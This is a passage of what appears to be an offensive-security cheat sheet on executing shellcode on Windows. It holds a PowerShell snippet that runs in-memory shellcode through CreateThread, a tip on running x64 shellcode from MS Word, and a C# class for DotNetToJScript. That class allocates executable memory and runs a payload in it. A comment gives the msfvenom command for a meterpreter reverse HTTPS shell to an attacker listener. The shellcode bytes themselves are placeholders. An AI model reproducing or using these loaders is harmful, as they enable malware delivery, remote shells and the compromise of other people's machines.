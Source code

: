```powershell

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunction kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookupFunction kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
{% endcode %}

{% hint style="info" %}
In order to run x64 shellcode from a 32-bit application (e.g., MS Word), you may want to specify the path to 64-bit PowerShell binary through [Sysnative](https://www.samlogic.net/articles/sysnative-folder-64-bit-windows.htm) alias.
{% endhint %}




## C\#



### C\# DLL to Jscript

* [https://github.com/tyranid/DotNetToJScript](https://github.com/tyranid/DotNetToJScript)

{% code title="TestClass.cs" %}
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 -f csharp
        byte[] buf = new byte[???] {
        0x31,0x33,...,0x33,0x37
        };

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, buf.Length);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}
```
{% endcode %}